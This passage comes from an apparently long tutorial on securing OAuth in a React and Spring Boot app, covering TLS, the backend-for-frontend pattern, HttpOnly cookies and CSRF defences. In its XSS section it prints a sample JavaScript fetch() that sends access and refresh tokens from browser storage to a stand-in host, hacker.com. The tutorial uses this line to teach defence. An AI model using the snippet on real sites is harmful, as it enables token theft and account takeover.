Both sides independently derive the exact same **Master Secret** without ever transmitting it over the wire!

#### Step 3: Forward Secrecy
Because the Diffie-Hellman keys are *ephemeral* (generated anew for every single connection), even if Google's private master server key were stolen 5 years from now, an attacker who recorded today's encrypted network traffic **cannot decrypt it**.

#### Step 4: Symmetric Data Encryption & Integrity (AEAD)
Once the shared secret is established, the connection switches to fast symmetric encryption using algorithms like **AES-256-GCM** (Galois/Counter Mode).
- **Confidentiality:** The payload is encrypted.
- **Integrity (Authentication Tag / MAC):** Every encrypted network packet includes a cryptographic checksum. If a hacker alters even a single bit in transit, the checksum fails, and Spring Boot immediately terminates the connection.

---

### How MitM Attacks Crash and Fail Against PKI

What happens if an attacker tries to intercept this connection?

1. **Scenario 1: Attacker sends a Self-Signed Certificate.**
   - Spring Boot checks its JDK TrustStore. The attacker's fake CA is not present.
   - Spring Boot aborts instantly with the classic exception:
     ```
     javax.net.ssl.SSLHandshakeException: PKIX path building failed:
     sun.security.provider.certpath.SunCertPathBuilderException: 
     unable to find valid certification path to requested target
     ```
2. **Scenario 2: Attacker gets a valid certificate for their own domain (`hacker.com`) and intercepts DNS.**
   - Spring Boot requested `oauth2.googleapis.com`.
   - The certificate presented says `hacker.com`.
   - Spring Boot's **Hostname Verifier** fails the check and closes the socket immediately.

---

### Enterprise Defenses: mTLS and Sender-Constrained Tokens

In ultra-high-security environments (banking, open finance):
- **Mutual TLS (mTLS - RFC 8705):** Not only does the client verify the server, but the server also demands an X.509 certificate from the client.
- **Sender-Constrained Tokens:** The issued Access Token is cryptographically bound to the client's TLS certificate. If an attacker steals the token, they cannot use it from any other machine because they lack the client's private TLS key.

---

# 8. The Pure SPA Trap: React in the Browser

Now we arrive at the central dilemma discussed in the PDF: **Why running a pure OAuth client in React is fundamentally dangerous.**

---

### The Page Reload & Storage Problem

When React handles OAuth directly:
1. The user clicks "Login with Google".
2. React generates `code_verifier`.
3. React redirects the entire browser to Google: `window.location.href = "https://accounts.google.com/..."`.
4. **The page unloads completely.**
5. When Google redirects back to `http://localhost:3000/callback?code=XYZ`, **the browser executes a full page reload**.
6. Every JavaScript variable stored in memory (`let verifier = ...`) is **wiped out**.

To survive the page reload, React is forced to persist the `code_verifier` in browser storage before leaving:
```javascript
// Before redirecting:
sessionStorage.setItem('code_verifier', verifier);
sessionStorage.setItem('oauth_state', state);

// On return:
const verifier = sessionStorage.getItem('code_verifier');
```

And once React receives the `access_token` and `refresh_token`, where does it store them?
Again, in `sessionStorage`, `localStorage`, or in-memory state.

---

### Why `sessionStorage` & `localStorage` Are Lethal with Tokens

Developers assume: *"My site has Same-Origin Policy (SOP). Other domains cannot read my sessionStorage, so I am safe!"*

This is a dangerous half-truth.

```
+-------------------------------------------------------------------+
|                     THE BROWSER STORAGE REALITY                   |
|                                                                   |
|   hacker.com                                                      |
|       |                                                           |
|       X  BLOCKED by Same-Origin Policy!                           |
|       v                                                           |
|  [ sessionStorage of myapp.com ]                                  |
|       ^                                                           |
|       |  ALLOWED! Full Access!                                    |
|   myapp.com (Vulnerable npm package / XSS)                        |
+-------------------------------------------------------------------+
```

The Same-Origin Policy only prevents **other origins** (like `hacker.com`) from reading your storage.
**It provides ZERO protection against code executing within your own origin!**

If your React application includes:
- An outdated npm package with an XSS vulnerability,
- A compromised third-party analytics script,
- An unescaped search input rendering user HTML...

An attacker can execute a single line of JavaScript:
```javascript
// Instant Game Over:
fetch('https://hacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
        token: localStorage.getItem('access_token'),
        refreshToken: localStorage.getItem('refresh_token'),
        verifier: sessionStorage.getItem('code_verifier')
    })
});
```

Because `localStorage` and `sessionStorage` are completely open to JavaScript, **any XSS vulnerability leads to instant, irreversible token theft**. 
If the attacker steals a `refresh_token` that is valid for 30 days, they own the user's account for 30 days without needing the user's password.

---

# 9. The Modern Industry Standard: Backend-For-Frontend (BFF) Pattern

Recognizing that browser storage is fundamentally insecure for long-lived tokens, the **Internet Engineering Task Force (IETF)** released the **OAuth 2.0 Security Best Current Practice (BCP)**.

Their recommendation: **Browser-based apps (SPAs) should NOT act as OAuth Clients directly.**
Instead, use the **Backend-For-Frontend (BFF)** pattern.

---

### Architectural Design: React + Spring Boot BFF Gateway

In the BFF pattern, the client responsibilities are split:
- **React:** A pure presentation UI layer. It contains **no OAuth logic**, **no tokens**, and **no cryptographic keys**.
- **Spring Boot (BFF Gateway):** Acts as the **Confidential OAuth Client**. It holds the `client_secret`, generates PKCE keys, stores tokens on the server, and exchanges session identifiers with the browser via hardened cookies.

```
+----------------+              +-----------------------+              +----------------------+
|  React SPA     |              |   Spring Boot (BFF)   |              | Google Auth Server / |
|  (Frontend UI) |              |   (OAuth Client)      |              |   Resource Server    |
+----------------+              +-----------------------+              +----------------------+
       |                                    |                                     |
       | 1. User clicks "Login"             |                                     |
       |----------------------------------->|                                     |
       |    GET /oauth2/authorization/google|                                     |
       |                                    | 2. Generate PKCE & State            |
       |                                    |    Store verifier in Server Session |
       |                                    |    Redirect to Google               |
       |                                    |------------------------------------>|
       |                                    |                                     |
       | 3. User authenticates & grants consent                                   |
       |                                    |                                     |
       |                                    | 4. Callback with Authorization Code |
       |<-------------------------------------------------------------------------|
       |    (Browser redirects back to Spring Boot: /login/oauth2/code/google)    |
       |                                    |                                     |
       |                                    | 5. Back-Channel Token Exchange      |
       |                                    |    POST /token                      |
       |                                    |    (code + verifier + secret)       |
       |                                    |------------------------------------>|
       |                                    |                                     |
       |                                    | 6. Receive Tokens                   |
       |                                    |<------------------------------------|
       |                                    |    { access_token, refresh_token }  |
       |                                    |                                     |
       |                                    | 7. Store Tokens in Server RAM/Redis |
       |                                    |    Create Session                   |
       | 8. 302 Redirect to React Dashboard |                                     |
       |    Set-Cookie: SESSIONID=xyz...    |                                     |
       |    HttpOnly; Secure; SameSite=Lax  |                                     |
       |<-----------------------------------|                                     |
       |                                    |                                     |
       | 9. API Call: GET /api/cases        |                                     |
       |    (Cookie attached automatically) |                                     |
       |----------------------------------->|                                     |
       |                                    | 10. Extract tokens from session     |
       |                                    |     Call Resource Server:           |
       |                                    |     GET /cases                      |
       |                                    |     Authorization: Bearer <token>   |
       |                                    |------------------------------------>|
```

---

### Advantages of the BFF Pattern

1. **Elimination of Token Theft via XSS:** The browser **never sees** the `access_token` or `refresh_token`. Even if your React app suffers an XSS injection, there are no tokens in `localStorage` or `sessionStorage` for the attacker to steal!
2. **Confidential Client Security:** Because Spring Boot runs on a server, it can safely use a `client_secret` alongside PKCE. This gives you the highest level of security defined in OAuth 2.1.
3. **Silent Token Refresh:** When the short-lived `access_token` expires (e.g., after 10 minutes), Spring Boot automatically uses the `refresh_token` in the background to get a new one. React doesn't know and doesn't care.
4. **Simplified Frontend Code:** React doesn't need heavy OAuth libraries, token parsers, or cryptographic math. It simply calls standard REST endpoints using `fetch()` or `axios`.

---

# 10. Cookies, `HttpOnly`, and Browser Enforced Isolation

The BFF pattern relies on cookies. But why are cookies safe from XSS when `localStorage` is not?

---

### What Is `HttpOnly` (RFC 6265)?

When a backend server issues a cookie, it can attach security directives:

```http
Set-Cookie: SESSIONID=ab12-cd34-ef56; Path=/; Secure; HttpOnly; SameSite=Strict
```

- **`Secure`:** The browser will only transmit the cookie over encrypted HTTPS connections. It will never be sent over plaintext HTTP.
- **`SameSite=Strict/Lax`:** Controls whether the cookie is sent on cross-site requests (the primary defense against CSRF).
- **`HttpOnly`:** Instructs the browser that this cookie is **strictly reserved for HTTP/HTTPS network transmissions** and must be hidden from client-side scripts.

---

### Why JavaScript / React CANNOT Create or Read `HttpOnly` Cookies

Developers often ask: *"Can't React just create an HttpOnly cookie itself using JavaScript?"*

The answer is **NO**. This is an ironclad browser restriction defined in **RFC 6265**.

If you open your browser console on any website and type:
```javascript
document.cookie = "my_token=secret123; HttpOnly";
```
What happens?
1. The browser parses the string.
2. It sees the `HttpOnly` token.
3. **The browser completely ignores the `HttpOnly` directive** (or drops the cookie entirely).
4. The cookie is saved as a regular cookie, or the property is discarded.

Furthermore, if a cookie was set by the server with `HttpOnly`, calling:
```javascript
console.log(document.cookie);
```
Will print all regular cookies, but the `HttpOnly` cookie will be **completely invisible**. It does not exist in JavaScript's universe.

---

### Low-Level Browser Mechanics: The V8 Engine vs. Network Vault

To understand why this restriction cannot be bypassed, look at the internal architecture of a modern browser (like Google Chrome):

```
+-----------------------------------------------------------------------------------+
|                                 GOOGLE CHROME                                     |
|                                                                                   |
|  +---------------------------------------+   +---------------------------------+  |
|  |           RENDERER PROCESS            |   |         NETWORK SERVICE         |  |
|  |                                       |   |       (Browser Process)         |  |
|  |  +---------------------------------+  |   |                                 |  |
|  |  |      V8 JavaScript Engine       |  |   |   +--------------------------+  |  |
|  |  |   (React, document.cookie)      |  |   |   |   SQLite Cookie Vault    |  |  |
|  |  +---------------------------------+  |   |   |   (Encrypted on disk)    |  |  |
|  |                   |                   |   |   +--------------------------+  |  |
|  |        SANDBOXED ENVIRONMENT          |   |                 |               |  |
|  |  Has NO direct access to disk,        |   |  Reads 'Set-Cookie' headers     |  |
|  |  network sockets, or cookie store.    |   |  directly from raw TCP streams. |  |
|  +---------------------------------------+   +---------------------------------+  |
|                      |                                       |                    |
|                      +--- IPC (Inter-Process Communication) -+                    |
|                                                                                   |
|  When JS reads 'document.cookie':                                                 |
|  1. V8 sends an IPC message to Network Process.                                   |
|  2. Network Process filters out ALL cookies marked with 'HttpOnly'.               |
|  3. Only unprotected cookies are returned across the process boundary!           |
+-----------------------------------------------------------------------------------+
```

The V8 JavaScript engine runs in a restricted **sandbox process**. It does not even have access to the file where cookies are stored. 
Only the core **Browser Network Process** can read and write `HttpOnly` cookies. 

**Analogy:**
- **`localStorage` / `sessionStorage`:** A piece of paper sitting openly on your desk. Anyone who walks into the room (any injected script) can look down and read it.
- **`HttpOnly` Cookie:** A locked drop-box built into the wall of the bank. The postman (the browser network process) drops letters directly into the vault for the bank teller (Spring Boot). You (React code standing in the lobby) cannot open the box, reach inside, or read what letters are in transit.

---

### Eliminating CSRF in Cookie-Based BFF: `SameSite` & Anti-CSRF Tokens

Because the BFF pattern switches from Bearer tokens in headers to cookies, we must protect against CSRF. Modern applications use two layers of defense:

#### 1. The `SameSite` Cookie Attribute
- `SameSite=Lax`: Cookies are withheld on cross-site subrequests (e.g., images, forms submitted by other sites), but sent when a user navigates to the origin site (e.g., following a link).
- `SameSite=Strict`: Cookies are never sent in any cross-site context, even when following a regular link from Google.

#### 2. The Synchronizer Token / Anti-CSRF Header Pattern
For state-changing requests (POST, PUT, DELETE), Spring Boot issues a random CSRF token:
1. Spring Boot sends the CSRF token in an accessible cookie or header: `XSRF-TOKEN`.
2. React reads this token (since this one is intentionally NOT `HttpOnly`) and copies it into a custom request header:
   ```javascript
   axios.post('/api/cases', data, {
       headers: { 'X-XSRF-TOKEN': csrfToken }
   });
   ```
3. A malicious site triggering a CSRF attack can make the browser send cookies, but **cannot read your CSRF token or set custom headers** due to the Same-Origin Policy.
4. Spring Boot verifies that the header matches the expected token. If missing or invalid, the request is rejected with `403 Forbidden`.

---

# 11. Master Cheat Sheet & Mental Models

### The Complete Security Matrix

| Attack / Threat | What the Hacker Wants | The Vulnerable Setup | The Bulletproof Solution | Why It Works |
| :--- | :--- | :--- | :--- | :--- |
| **Login CSRF** | Force victim into hacker's account to steal saved data. | OAuth without `state` parameter. | **`state` parameter** bound to an `HttpOnly` cookie. | Callback verifies `state_returned == state_stored`. Mismatch drops request. |
| **Auth Code Interception** | Steal temporary authorization code from redirect URL. | Public Client using plain Authorization Code flow without secrets. | **PKCE (`S256`)** | Hacker cannot compute `code_verifier` from `code_challenge` (SHA-256 is one-way). |
| **Man-in-the-Middle (MitM)** | Decrypt token exchange between backend and IdP. | Unencrypted HTTP, or disabling SSL verification. | **TLS 1.3 + PKI Trust Chain** | Ephemeral Diffie-Hellman generates secret without transmission; X.509 verifies identity. |
| **Token Theft via XSS** | Steal Access & Refresh Tokens to impersonate user indefinitely. | React storing tokens in `localStorage` or `sessionStorage`. | **BFF Pattern + `HttpOnly` Cookies** | Browser V8 sandbox completely isolates `HttpOnly` cookies from JavaScript. |
| **Ambient Request CSRF** | Force victim's browser to execute financial/data actions. | BFF using cookies without CSRF protection. | **`SameSite=Lax/Strict` + Anti-CSRF Header** | Cross-origin requests cannot read or inject the custom Anti-CSRF header. |

---

### Architecture Decision Flowchart



---

### Spring Boot 3 Implementation Blueprint (BFF Resource Server)

To implement this pattern in Spring Boot, your `pom.xml` needs both the client and resource server starters:

```xml
<dependencies>
    <!-- OAuth2 Client: Handles the handshake with Google/Keycloak -->
    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-oauth2-client</artifactId>
    </dependency>

    <!-- Resource Server: Validates JWTs or sessions for API protection -->
    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-oauth2-resource-server</artifactId>
    </dependency>

    <!-- Spring Security -->
    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-security</artifactId>
    </dependency>
</dependencies>
```

And your `SecurityConfig.java`:

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        http
            // 1. Enable CSRF protection with Cookie-based repository readable by React
            .csrf(csrf -> csrf
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
                .csrfTokenRequestHandler(new SpaCsrfTokenRequestHandler())
            )
            // 2. Strict CORS policy
            .cors(Customizer.withDefaults())
            // 3. Authorization Rules
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/", "/index.html", "/static/**", "/api/public/**").permitAll()
                .anyRequest().authenticated()
            )
            // 4. Act as OAuth2 Client (BFF Login)
            .oauth2Login(oauth2 -> oauth2
                .defaultSuccessUrl("http://localhost:3000/dashboard", true)
            )
            // 5. Session Management: Server-Side Session with HttpOnly Cookie
            .sessionManagement(session -> session
                .sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED)
            );

        return http.build();
    }
}
```

---

### Final Summary: The Golden Rules
1. **Never put secrets in frontend code.** If it runs in a browser or phone, it is public.
2. **Never store tokens in `localStorage` or `sessionStorage`.** A single XSS vulnerability compromises your entire application.
3. **Always use PKCE.** Even if you have a `client_secret` (OAuth 2.1 requires PKCE for everything).
4. **Always use `state`.** It is your only shield against Login CSRF.
5. **Embrace the BFF pattern.** Let the backend handle identity and tokens; let the frontend handle pixels and UI.
6. **Rely on browser-enforced primitives (`HttpOnly`, `SameSite`, `TLS`).** Cryptography and network sandboxes do the heavy lifting so your application code doesn't have to.
